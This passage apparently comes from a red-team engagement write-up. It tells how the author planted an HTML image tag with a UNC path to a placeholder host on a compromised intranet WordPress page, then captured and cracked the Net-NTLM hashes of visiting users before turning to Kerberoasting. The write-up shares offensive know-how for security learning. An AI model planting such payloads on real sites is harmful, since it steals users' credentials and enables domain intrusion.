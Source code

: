 There are significant differences between NTLMv1 and NTLMv2, but thats a topic for a different post. As we are dealing with windows 7/2008+ systems, NTLM here refers to NTLMv2.

From the above we can see that if we can somehow get someone to try and access a resource on our system (acting as the server on the above example), we'll be able to grab the Net-NTLM hash. 
There are many different ways of accomplishing this but the more interesting one given the circumstances is through HTML.
IE and EDGE (although ive succesfully tested with Chrome as well) both support UNC paths to load resources (such as images). An image tag like ```<img src="\\x.x.x.x\doesnotmatter.png" />``` would try to pull
```doesnotmatter.png``` from ```x.x.x.x```, which would kick off the authentication process with ```x.x.x.x```. Since the code executes in the browser of the client browsing our evil page, 
the resulting hash would belong to the user using the browser.

So, to recap: We have managed to gain administrative access to the WordPress site of the companies internal intranet, where it is safe to assume most browsers will land on when opened, and a way to abuse
evil html to grab NetNTLM hashes. See where im going with this?

![knock knock]({{ "/images/responder/wp.png" | absolute_url }})

Before saving the above, I started Metasploit's SMB server to catch all incoming connections. Note that I could have also used Impacket's smbserver.py or even Responder by disabling the responses to queries,
but Metasploit was just convenient at the time. As soon as the server was started and the file saved, hashes from all over the domain started flying in! In total I believe we gathered over 200 hashes in under an 
hour. 

![Who there]({{ "/images/responder/msf.png" | absolute_url }})

*Edit: If administrative access is available or there is access to a system with wireshark installed, and our smbserver tools are not available, I strongly recommend collecting hashes*
*with wireshark. Once enough hashes have been collected, bring the pcap over to a linux box and extract the NetNTLM hashes with [this](https://github.com/DanMcInerney/net-creds) fantastic tool*  

### Pwning the Domain: Red team 1, Blue team 0

With plenty of hashes, the next step was to crack them and begin moving laterally. Note we could have also relayed the hashes, but as we were opting to be as quiet as possible, we decided to crack them offline instead.
Hashcat cracked roughly 20 accounts in a relatively short period of time. Checking these account's permissions we discovered
that none had elevated privileges. No matter, with domain credentials its usually only a matter of time before the domain goes down. Remembering the SOC's watchfull eyes over us, we kept our reconnaissance
to a minimum to prevent tripping any alert from monitoring systems. Instead, we opted for what are considered easy kills, which meant Kerberoasting.

Kerberoasting is the name of the attack given by [Tim Medina in 2014](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin(1).pdf) to attacking Microsoft Windows Kerberos authentication. 
While a full description is out of scope, The following graphic taken from [Microsoft](https://technet.microsoft.com/pt-pt/library/cc772815(v=ws.10).aspx) illustrates the basics we need to understand for this attack:

![Kerberos]({{ "/images/responder/kerberos.gif" | absolute_url }})

To summarize the above, at logon, the client contacts the Key Distribution Center (KDC) and requests a Ticket Ticket Grating Ticket (TGT) from the KDC. The KDC valdiates the users information, such as 
permissions and group memberships, and if they check out it will return a TGT. If the user then wishes to access a service, it will need to supply the TGT as well as the target's service principal
name (SPN). A SPN [is the name by which a Kerberos client uniquely identifies an instance of a service for a given Kerberos target computer.](https://social.technet.microsoft.com/wiki/contents/articles/717.service-principal-names-spns-setspn-syntax-setspn-exe.aspx)
```